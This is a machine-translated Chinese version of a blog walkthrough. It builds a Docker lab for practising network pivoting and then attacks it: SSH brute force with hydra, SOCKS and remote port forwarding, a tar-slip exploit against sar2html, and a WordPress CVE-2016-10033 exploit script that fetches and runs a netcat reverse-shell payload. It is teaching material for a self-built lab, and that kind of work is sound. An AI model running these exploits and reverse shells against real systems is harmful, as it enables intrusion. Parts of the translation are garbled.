# Docker:创建一个旋转实验室并加以利用

> 原文：<https://infosecwriteups.com/docker-creating-a-pivoting-lab-and-exploiting-it-a66646dc2cf3?source=collection_archive---------0----------------------->

[https://gkiran.com.np/blog/pivoting](https://gkiran.com.np/blog/pivoting)

**Docker-compose 文件**:【https://github.com/Cimihan123/Pivoting】T4

# 旋转…

你可能熟悉旋转的概念。旋转是从一个受损系统转移到另一个系统的方式。

假设，
**“A”**对“B”有访问权**。
**【B】**拥有**到【C】**的访问权限。
**【A】**没有**到【C】**的权限。**

那么我们如何从**【A】**中访问**【C】**？这不可能直接实现，所以我们使用旋转的概念。**【A】**可以以**【B】**为立足点，获取**【C】**。**【A】**先攻破系统**【B】**然后可以用这台机器作为发射点攻击**【C】**。

# 实验室创建概述

为了练习旋转，我在 docker 中创建了一个实验室。

下图为我们提供了 docker-compose 文件的网络设置概览。 ***受害者 1*** 和 ***受害者 2*** 都是我们的目标。他们都在同一个子网 *172.16.101.0/24* 上，而*攻击者*在不同的子网 *172.16.100.0/24* 上。

我们的辅助机器(网关机器)位于两个子网络上。



**Docker 合成文件概述**

你可以从我的 Github repo 中获得 docker-compose 文件。

仓库链接:[仓库](https://github.com/Cimihan123/Pivoting)

在本实验中，创建了两个网络

**攻击者** - >拥有子网 172.16.100.0/24

**受害者** - >拥有子网 172.16.101.0/24

默认情况下，Docker 使用桥驱动程序。虽然我们可以指定不同的网络驱动程序，但我们将使用默认驱动程序



图:docker-compose-subnet.yml

注意*助手*容器是在本地构建的。这使得我们很容易定制基础映像。这是属于两个网络的容器: ***攻击者*** 和 ***受害者*** 。



图:docker-compose.yml

正在提取基本图像。我已经启用了 ssh root 登录。如果没有适当的安全指南，我不建议这样做。无红利(ex-dividend)



图:帮手。Dockerfile 文件

***攻击者*** 是 ***攻击者*** 子网的一部分，拥有一个 IP ***172.16.100.10。***



图:docker-compose.yml

***攻击者*** 容器也使用了***phusion/base image***。此外，一些其他工具( **ping、nmap、**等)。)将被安装。



图:攻击者。Dockerfile 文件

***受害者*** 集装箱也是当地建造的。它确实有网络 IP Fig: docker-compose.yml 这是子网***172 . 16 . 101 . 0/24***的一部分。



图:docker-compose.yml

**wget** 下载 **sar2html** 工具。Github 链接:[仓库](https://github.com/cemtan/sar2html/)。

它是一个用于系统统计的绘图工具。这个工具有一个问题，我们将在后面讨论。现在，假设这个工具有一个漏洞。



图:受害者 1。Dockerfile 文件

对于 ***受害者 2*** 没有必要对图像进行局部操作。docker hub 中已经有一个易受攻击的 WordPress。我们只要把它从那里拉出来。下图显示了带有数据库服务器的 WordPress 的配置结构。它们都在同一个子网中，因此可以相互通信。



图:docker-compose.yml

我们也有**wp-cli**来自动配置 wordpress 设置。



图:docker-compose.yml

这是我们实验室环境的简要概述。我们现在将运行 docker-compose 文件并检查它们。

# Docker 构建构建和运行

我们首先需要构建它们，这可能需要花费一些时间来提取、下载和安装。然后，我们创建并运行构建的容器。

```
docker-compose -f docker-compose-subnet.yml -f docker-compose.yml build
docker-compose -f docker-compose-subnet.yml -f docker-compose.yml up
```

总共有 5 个容器在运行。 ***攻击者*** ， ***助手*** ， ***受害者 1*** ， ***受害者 2***(WordPress&MySQL)正在运行。



图:docker-compose 构建和构建

***攻击者*** 容器可以到达 ***帮助者*** 网络。您应该看到从 ***助手*** 返回了一个成功的 ping 应答。

```
ping helper
```


图:攻击者的 Ping 检查



图:攻击者的 Ping 检查

使用下面的图片，你应该能够找出容器之间的联系。



图:Ping 检查

# 攻击和旋转

让我们首先发现****助手*** 主机中的端口。所以我们的目标是第一个访问*助手*主机的。*

```
*nmap -sC -sV -T4 172.16.100.11*
```

**

*图:Nmap 扫描(帮助程序)*

*端口 22 (ssh)是打开的。我们在攻击者的机器上安装了 hydra 和一个 rockyou.txt 文件，暴力强制 ssh 登录。*

```
*hydra -l root -P /home/rock.txt ssh://172.16.100.11*
```

**

*图:九头蛇的暴力*

*我们获得了用户 **root** 的密码。让我们尝试使用这个凭证。我们现在是在**的助手**机器里。*

```
*ssh root@172.16.100.11*
```

**

**图:宋承宪登录**

*可能会有其他新的主机，所以我将继续进一步扫描，以收集新的主机和端口。*

****ifconfig*** 显示 ***助手*** 机器是两个网络家族的一部分。*

```
***1\. 172.16.100.11
2\. 172.16.101.11***
```

**

**图:ifconfig**

```
*hostname -I -> displays all the addresses for the host*
```

**

**图:主机名**

*拥有 ssh 访问使得隧道传输变得非常容易。创建动态端口转发利用了 **SOCKS** 代理。这将通过 ssh 连接，经由给定的端口，将所有的流量传递到目的服务器。在这里，我们将所有流量转发到攻击者的机器。*

***-N =禁止执行命令***

***-f =在后台运行***

```
*ssh -D 9050 root@172.16.100.11 -f -N*
```

**

*图:动态端口转发*

*交叉检查它是否在后台运行。无红利(ex-dividend)*

**

**图:netstat**

*我们现在需要的是一个代理工具。我将使用*代理链*。记住我们在“/etc/proxychains.conf”中提到的端口应该与动态端口相同。*

**

*图:代理链配置*

## *发现新的主机(受害者)*

*主要的问题是找到宿主。拥有一个 nmap 会更容易，但是通常你不会在现实世界的场景中找到它。*

**

**图:无 nmap**

*我们现在知道 ***助手*** 是两个网络的一部分。 ***帮手*** 机和 ***攻击者*** 机都属于同一个网络**“172 . 16 . 100 . 0/24”**。由于这个原因，我们现在将扫描网络 **"172.16.101.0/24"** 以找到所有活动的主机。*

*我正在使用 ping 扫描技术来扫描新主机。下面的一行代码将以并行模式运行。*

```
*for i in $(seq 1 254); do (ping -c 1 172.16.101.${i} | grep "64 bytes from" | grep -oE "([0-9]{1,3}[\.]){3}[0-9]{1,3}" &); done;*
```

**

**图:使用 ping 进行主机扫描**

*我们现在已经收集了总共 5 个现场主持人。*

***1。172.16.101.11 —助手 ip**
**2。172.16.101.3 —网关 ip**
**3。172.16.101.20 —受害者 1 ip**
**4。172.16.101.21 —受害者 2 ip**
**5。172.16.101.22 —受害者 2 ip***

# ***受害者 1***

*我们不能 ping 的原因是代理不支持 **ICMP** 协议。它们的工作 OSI 层是不同的。*

**

*图:代理地图 ping*

*我们不能 ping 主机，但是我们可以使用 **Nmap** 扫描端口。*

```
*proxychains nmap -sT -Pn -F 172.16.101.20*
```

***-sT — TCP 连接扫描***

***-Pn —不会扫描主机，但会将所有主机视为在线***

***Nmap** 显示端口 5000 上有一个服务打开。*

**

*图:Nmap 扫描(受害者 1)*

*我们得到一个 200 状态码。*

**

**图:卷曲**

*让我们看看这个端口中正在运行什么。在浏览器中打开它。*

> ****sar2html*** *是系统统计(sar 数据)的绘图工具。**

**

*图:Sar2html*

*正如我在博客开头所说的，这个工具有一个漏洞。有一个 **tar2slip** 漏洞。*

> ****sar 2 html****易受 tar slip 攻击，从而导致通过归档提取进行任意文件写入。**

*让我们试着利用它。*

***1。首先下载 POC 生成器工具***

```
*git clone https://github.com/ptoomey3/evilarc.git && cd evilarc*
```

***2。运行以下代码***

```
*echo exploitation test > test.css*
```

***3。现在生成恶意的 tar 文件***

```
*python2 evilarc.py  -o linux -f pay.tar test.css -p 'static/css' -d 3*
```

***4。点击“新建主机”然后上传 tar 文件“pay . tar”***

***5。检查文件。***

**

*图:使用浏览器*

**

*图:使用卷曲*

*我们现在已经成功地利用了这个问题。*

***受害者 1 受到威胁**。*

# ***受害者 2***

*我们再次开始同样繁琐的 ***Nmap*** 扫描。端口 80 上运行着一个 HTTP 服务。*

**

*图:Nmap 扫描(受害者 2)*

*这里我们可以看到 **MySQL** 服务正在运行。*

**

*图:Nmap 扫描(受害者 2)*

*目前，我们的目标是 HTTP 服务。看起来它运行在 WordPress cms 上。*

**

*图:检查*

*如果我们没有使用**wp-cli**自动完成安装过程，那么我们应该手动完成。*

*要了解更多关于 **WordPress** 的这个漏洞，你可以[点击](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html)这里。*

*它已经被配置和安装。用户名和密码**分别是“admin”**和**“admin pass”**。*

**

*图:Wordpress 安装*

*保存给定的反向 shell 有效负载。*

```
*#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 172.16.101.11 1331 >/tmp/f*
```

***修订版***

*现在保存给定的概念验证。检查是否设置了正确的 http_server 和 target。*

```
*#!/bin/bashfunction prep_host_header() {
      cmd="$1"
      rce_cmd="\${run{$cmd}}";
      rce_cmd="`echo $rce_cmd | sed 's^/^\${substr{0}{1}{\$spool_directory}}^g'`"
      rce_cmd="`echo $rce_cmd | sed 's^ ^\${substr{10}{1}{\$tod_log}}^g'`"
      host_header="target(any -froot@localhost -be $rce_cmd null)"
      return 0
}if [ "$#" -ne 1 ]; then
echo -e "Usage:\n$0 target-wordpress-url\n"
exit 1
fi
target="$1"
http_server="172.16.101.11/rev.sh"# Save payload on the target in /tmp/rev.sh
cmd="/usr/bin/curl $http_server -o /tmp/rev.sh"
prep_host_header "$cmd"
curl -H "Host: $host_header" -s -d 'user_login=admin&wp-submit=Get+New+Password' "$target/wp-login.php?action=lostpassword"
echo -e "\n\e[92m[+]\e[0m Payload sent successfully"# get a reverse shell
cmd="/bin/chmod +x /tmp/rev.sh"
prep_host_header "$cmd"
curl -H "Host: $host_header" -s -d 'user_login=admin&wp-submit=Get+New+Password' "$target/wp-login.php?action=lostpassword"
echo -e "\n\e[92m[+]\e[0m Payload sent successfully"cmd="/bin/sh /tmp/rev.sh"
prep_host_header "$cmd"
curl -H "Host: $host_header" -s -d 'user_login=admin&wp-submit=Get+New+Password' "$target/wp-login.php?action=lostpassword"
echo -e "\n\e[92m[+]\e[0m Payload sent successfully"*
```

***poc.sh***

# ***测试***

*因此，在执行 POC 文件之前，我们首先必须确保一切工作正常。从**受害者 2** 机到**进攻者**机直接倒壳是不可能的。尽管我们运行了动态端口转发，但它仍然不起作用。*

**

***poc.sh** 文件将 **rev.sh** 从**攻击者**机器下载到**受害者 2** 机器。但是它没有与 HTTP 服务器建立连接。*

**

# ***反向外壳***

*让我们在这里使用远程端口转发的概念。*

```
*ssh -R :80:172.16.100.10:80 root@helper -N -f*
```

*这将把来自远程端口(**受害者 2** ) 80 的所有流量转发到端口 80 上的本地机器(**攻击者**)。现在，当我们运行 **poc.sh** 文件时，它可以与攻击者机器 python HTTP 服务器建立连接。让我们应用这个。*

**

*图:下载版本*

*我们现在离拿到反向壳只有一步之遥了。我们再次向远处的港口前进。*

```
***ssh -R :80:172.16.100.10:80 -R :1331:172.16.100.10:1331 root@helper -N -f****proxychains4 -q ./poc.sh 172.16.101.21
python3 -m http.server 80
ncat -lvnp 1331***
```

**

*图:反向外壳*

*最后，我们进入了易受攻击的 WordPress 机器。*

***警告***

*默认情况下，ssh 禁用**网关端口**。它将使任何远程 IP 只绑定到 127.0.0.1: <端口>，并且只允许从服务器主机连接。*

**

***1。当网关端口被禁用时***

**

*图:登机口号码*

***2。网关端口启用时***

**

*图:网关端口是*

*谢谢:)*